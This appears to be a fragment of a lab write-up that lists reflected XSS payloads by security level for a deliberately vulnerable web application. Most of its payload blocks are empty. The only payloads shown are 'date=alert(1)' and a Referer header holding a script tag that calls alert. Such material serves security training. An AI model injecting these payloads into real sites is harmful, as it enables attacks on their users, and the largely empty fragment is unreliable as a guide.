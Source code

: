 Payload: 
```
``` 
### Security level: high

Payload: 
```
``` 

## 💀  XSS - Reflected (Eval) 💀

```
date=alert(1)
```


### Security level: low

Payload: 
```
``` 
### Security level: medium

Payload: 
```
``` 
### Security level: high

Payload: 
```
``` 

## 💀  XSS - Reflected (HREF) 💀

```
Referer: <script>alert(1)</script>
```


### Security level: low

Payload: 
```
``` 
### Security level: medium

Payload: 
```
``` 
### Security level: high

Payload: 
```
``` 
